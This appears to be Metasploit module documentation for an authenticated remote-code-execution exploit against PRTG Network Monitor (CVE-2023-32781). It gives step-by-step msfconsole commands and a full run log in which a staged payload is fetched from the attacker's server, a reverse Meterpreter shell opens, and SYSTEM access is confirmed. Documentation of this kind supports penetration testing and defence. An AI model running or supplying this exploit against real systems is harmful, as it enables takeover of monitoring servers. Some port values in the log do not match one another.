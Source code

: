 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command line parameter injection vulnerability in PRTG Network Monitor (CVE-2023-32781).

An authenticated attacker can create a HL7Sensor which can be ran with a parameter injection. This will allow the attacker to specify the `-debug` parameter which will allow a arbitrary file write on the system in the context of the user `SYSTEM`.

The module uses provided credentials to log in to the web interface, and then creates the HL7Sensor, together with an EXE/Script sensor which runs the payload. Furthermore it cleans up the sensor creation after succesful exploitation.

This vulnerability affects versions  <= 23.2.83.1760

**Vulnerable Application Installation**

PRTG provides a trial version for free (https://www.paessler.com/prtg/download) but it is always updated to the latest version, which won't allow you to test for the vulnerability.

**Successfully tested on**

- PRTG Network Monitor 23.2.83.1760 on Windows 10

## Verification Steps
1. Install the application
1. Start `msfconsole` and run the following:

```
use exploit/windows/http/prtg_authenticated_rce_cve_2023_32781
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set RPORT 13380
RPORT => 13380
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set SRVPORT 10106
SRVPORT => 10106
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set LPORT 4446
LPORT => 4445
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set LHOST 192.168.56.1
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > exploit
```

`RHOSTS` refers to the PRTG host
`RPORT` refers to the PRTG port
`SRVHOST` refers to the host where metasploit will serve the second stage payload. This has to be reachable by `PRTG`
`SRVPORT` refers to the port where metasploit will serve the second stage payload. This has to be reachable by `PRTG`
`LPORT` refers to the payload connect port back which in this instance is meterpreter
`LHOST` refers to the payload connect host back which in this instance is meterpreter

After running this you should have a meterpreter instance


## Options
### USERNAME

PRTG Network Monitor's account that has the right to create Sensors (allowed by default on the initial account).

### PASSWORD

The password associated with the specified username.


## Scenarios

Running the payload and getting a meterpreter session and then spawning a shell as `nt authority\system`

```bash
msf > use exploit/development/cve_2023_32781
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(development/cve_2023_32781) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(development/cve_2023_32781) > set RPORT 13380
RPORT => 13380
msf exploit(development/cve_2023_32781) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(development/cve_2023_32781) > set SRVPORT 10106
SRVPORT => 10106
msf exploit(development/cve_2023_32781) > set LPORT 4446
LPORT => 4445
msf exploit(development/cve_2023_32781) > set LHOST 192.168.56.1
msf exploit(development/cve_2023_32781) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4446 
[*] Using URL: http://192.168.56.1:10105/sF321hmEZCz
[*] Running PRTG RCE exploit
[+] Successfully authenticated against PRTG
[*] Writing .bat to disk
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[*] Generated sensor_name Wg83qiZvO
[*] Generated bat_file_name rjKu8O2Pt.bat
[+] HL7 Sensor succesfully created
[*] Sleeping 5 seconds to wait for sensor creation
[*] Fetching created sensor id
[*] Extracted sensor_id: 2095
[*] Requesting HL7 Sensor to initiate scan
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[+] Sensor started running
[+] .bat file written to disk
[*] Running the .bat file: rjKu8O2Pt.bat
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[*] EXE Script sensor created
[*] Sleeping 5 seconds to wait for sensor creation
[*] Fetching created sensor id
[*] Extracted sensor_id: 2096
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[+] Sensor started running
[+] Exploit completed. Waiting for payload
[*] Exploit done
[*] Command Stager progress - 100.00% done (150/150 bytes)
[*] Client 192.168.56.1 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2428) requested /sF321hmEZCz
[*] Sending payload to 192.168.56.1 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2428)
[*] Sending stage (175686 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4446 -> 192.168.56.1:43926) at 2023-11-23 17:06:34 +0000
[*] Server stopped.

meterpreter > shell
Process 4280 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22621.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system
```
